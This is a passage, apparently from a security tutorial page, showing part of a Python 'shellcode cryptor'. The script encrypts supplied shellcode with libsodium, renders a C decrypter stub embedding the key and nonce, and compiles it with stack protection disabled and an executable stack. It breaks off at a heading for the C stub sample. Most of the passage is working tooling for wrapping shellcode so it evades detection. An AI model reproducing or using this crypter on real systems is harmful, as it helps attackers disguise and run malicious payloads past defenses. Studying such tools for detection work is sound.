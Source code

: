 ```python
        formatted_byte = '\\x{0:0{1}X}'.format(byte, 2)
        hex_escaped += formatted_byte
    return hex_escaped


def encrypt_shellcode(key, shellcode):
    box = nacl.secret.SecretBox(key)
    return box.encrypt(shellcode)


def main():

    if len(sys.argv) != 3:
        print("Usage: %s <destination filename> <hex_escaped_shellcode_to_crypt>" % sys.argv[0])
        raise SystemExit

    output_filename = sys.argv[1]

    input_shellcode = process_shellcode(sys.argv[2])

    key = nacl.utils.random(nacl.secret.SecretBox.KEY_SIZE)  # Generate random key

    encrypted = nacl.secret.SecretBox(key).encrypt(input_shellcode)  # Encrypt shellcode

    nonce = encrypted.nonce  # Extract nonce from EncryptedMessage object
    ciphertext = encrypted.ciphertext  # Extract ciphertext from EncryptedMessage object

    rendered_c_template = C_TEMPLATE.render(c=c_format_binary_data(ciphertext),  # Render the C decrypter file
                                            clen=len(ciphertext),
                                            k=c_format_binary_data(key),
                                            n=c_format_binary_data(nonce),
                                            mlen=len(input_shellcode))

    with open(output_filename + '.c', 'w+') as cfile:
        cfile.write(rendered_c_template)

    subprocess.call(['gcc', output_filename + '.c', '-fno-stack-protector', '-z', 'execstack', '-m32', '-o',
                     output_filename + '.elf', '-ggdb', '-static', '-pthread', '-lpthread', '/usr/lib/i386-linux-gnu/libsodium.a'])
    #os.remove(output_filename + '.c')
    print('Finished %s' % output_filename + '.elf')

if __name__ == '__main__':
    main()
```

### C Decrypter Stub Sample

This is a sample C source generated by the cryptor. A version of this can be found on github [here]().
